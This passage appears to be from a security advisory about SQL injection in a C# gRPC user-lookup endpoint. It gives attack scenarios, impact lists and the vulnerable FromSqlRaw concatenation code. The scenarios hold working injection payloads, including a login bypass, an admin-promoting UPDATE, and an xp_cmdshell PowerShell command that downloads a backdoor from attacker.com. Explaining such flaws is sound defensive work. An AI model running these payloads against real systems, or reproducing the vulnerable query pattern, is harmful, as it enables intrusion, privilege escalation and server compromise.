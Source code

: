**Scenario 2: Authentication Bypass**
If this endpoint is used as part of an authentication flow, an attacker could bypass authentication checks. By sending a request with the search term `' OR 'x'='x' -- `, the attacker causes the query to ignore the intended UserName comparison and return a valid user record regardless of input. If authorization is based on this lookup, the attacker gains unauthorized access to the application.

**Scenario 3: Data Modification Attack**
Using a technique called "stacked queries" (if the database configuration allows it), an attacker could inject additional SQL statements. A payload like `'; UPDATE Users SET IsAdmin=1 WHERE UserName='attacker'; -- ` would first complete the original query, then execute a second query that promotes the attacker's account to administrator status, providing elevated privileges within the application.

**Scenario 4: Infrastructure Compromise**
In a worst-case scenario involving elevated database permissions, an attacker might execute operating system commands. A payload such as `'; EXEC master..xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\'http://attacker.com/backdoor.ps1\')"'; -- ` could establish a backdoor on the database server, leading to broader infrastructure compromise beyond the application itself.

# Impact Analysis
**Business Impact:**
- Unauthorized access to sensitive customer or business data, potentially violating data protection regulations (GDPR, CCPA, etc.)
- Data breaches requiring disclosure to affected users and regulatory authorities
- Significant reputational damage if breach becomes public
- Financial losses from regulatory fines, customer compensation, and remediation costs
- Potential intellectual property theft if proprietary data is accessible through the database
- Business disruption if data is modified or deleted by attackers
- Erosion of customer trust and potential customer loss
- Legal liability if customer data is exposed or misused

**Technical Impact:**
- Complete compromise of database confidentiality with potential exposure of all accessible data
- Loss of data integrity through unauthorized modifications that might be difficult to detect
- Potential for privilege escalation within the database if admin credentials are accessible
- Service disruption if critical data is corrupted or deleted
- Backdoor creation allowing persistent access even after the original vulnerability is patched
- Extended compromise timeline if the attack goes undetected
- Lateral movement to other systems if the database contains credentials or configuration details
- Complex incident response process to determine the full extent of data access or modification

# Technical Details
The vulnerability stems from insecure coding practices in the gRPC endpoint implementation. Let's examine the technical aspects:

```csharp
// Vulnerable method in a gRPC service
public override async Task<GetUserResponse> GetUser(
    GetUserRequest request,
    ServerCallContext context)
{
    // Untrusted input from gRPC request
    string searchInput = request.SearchTerm;

    // Vulnerable SQL construction: direct string concatenation
    var user = await _dbContext.Users
        .FromSqlRaw("SELECT * FROM Users WHERE UserName = '" +
                    searchInput + "'")
        .FirstOrDefaultAsync();

    var response = new GetUserResponse();
    if (user != null)
```